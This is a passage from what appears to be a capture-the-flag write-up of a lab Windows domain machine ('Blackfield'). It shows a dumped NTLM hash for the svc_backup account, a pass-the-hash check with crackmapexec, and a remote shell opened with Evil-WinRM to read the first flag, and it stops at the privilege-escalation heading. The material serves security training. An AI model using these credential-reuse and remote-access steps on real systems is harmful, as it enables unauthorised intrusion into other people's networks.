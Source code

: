 ```bash
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621

...[snip]...
```

We have an NTLM hash for **svc_backup**. Using the recovered hash and `crackmapexec` we could perform a **Pass-the-Hash** attack and try to authenticate as **svc_backup**.

Note that **Pass the hash** (or *PtH*) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash.

```bash
$ crackmapexec winrm 10.129.140.139 -d blackfield.local -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d                                 
HTTP        10.129.140.139  5985   10.129.140.139   [*] http://10.129.140.139:5985/wsman
WINRM       10.129.140.139  5985   10.129.140.139   [+] blackfield.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

The hash is valid and we do have a WinRM access to the remote computer.

## WinRM Access

Using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and the recovered account, we can try to connect to the remote machine.

```bash
$ evil-winrm -i 10.129.140.139 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> dir ..\Desktop


    Directory: C:\Users\svc_backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   2:26 PM             32 user.txt

```

We now have a remote shell access and the **first flag**.

# Privilege Escalation

